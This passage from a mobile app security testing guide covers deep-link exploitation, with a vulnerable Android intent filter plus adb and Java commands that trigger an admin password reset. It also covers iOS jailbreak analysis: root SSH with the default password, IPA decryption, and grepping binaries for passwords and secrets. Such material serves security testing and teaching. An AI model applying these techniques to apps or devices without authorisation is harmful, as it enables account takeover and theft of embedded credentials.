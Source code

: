 **3. Deep Link Exploitation**
```xml
<!-- Vulnerable deep link in AndroidManifest.xml -->
<intent-filter>
    <data android:scheme="myapp"
          android:host="reset"/>
    <action android:name="android.intent.action.VIEW"/>
    <category android:name="android.intent.category.DEFAULT"/>
    <category android:name="android.intent.category.BROWSABLE"/>
</intent-filter>
```

```bash
# Exploit via ADB
adb shell am start -W -a android.intent.action.VIEW -d "myapp://reset?user=admin&token=123"

# Exploit via malicious app
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setData(Uri.parse("myapp://reset?user=admin&token=123"));
startActivity(intent);
```

### iOS Application Security

#### iOS App Analysis

**Setup**
```bash
# Jailbroken device required
# Install SSH
# Install Frida
# Install tools: Cycript, class-dump-z, Clutch

# SSH to device
ssh root@iphone_ip
# Default password: alpine
```

**Decrypt IPA**
```bash
# Using Clutch
clutch -i  # List installed apps
clutch -d com.example.app  # Decrypt app

# Using frida-ios-dump
python dump.py com.example.app
```

**Static Analysis**
```bash
# Extract IPA
unzip application.ipa

# Analyze binary
otool -L Payload/App.app/App
class-dump-z Payload/App.app/App > headers.txt

# Find strings
strings Payload/App.app/App | grep -i "password\|api\|secret"
```

